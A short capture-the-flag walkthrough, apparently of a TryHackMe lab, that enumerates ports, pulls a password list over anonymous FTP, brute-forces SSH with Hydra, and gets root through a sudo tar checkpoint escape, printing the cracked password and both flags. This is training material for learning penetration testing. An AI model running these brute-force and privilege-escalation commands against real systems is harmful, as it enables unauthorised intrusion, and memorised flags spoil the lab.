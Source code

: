 # Nmap

Open ports: 
21/ftp (Anonymous)
22/ssh
80 http

Let's try FTP as Anonymous!

```
ftp $IP
get task.txt
get locks.txt
```
So, author is `lin`

# Bruteforce

We can use Hydra to bruteforce `ssh`

```
hydra -l lin -P locks.txt ssh://$IP
```
found password `RedDr4gonSynd1cat3`

```
ssh lin@$IP
```

```
cat user.txt
```
flag is `THM{CR1M3_SyNd1C4T3}`

# Getting Root

Check wat we can do:
```
sudo -l
```
So, we cat use tar as without permissons

https://gtfobins.github.io/gtfobins/tar/

Get reverse shell: 
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
cat /root/root.txt
```

Flag is `THM{80UN7Y_h4cK3r}`
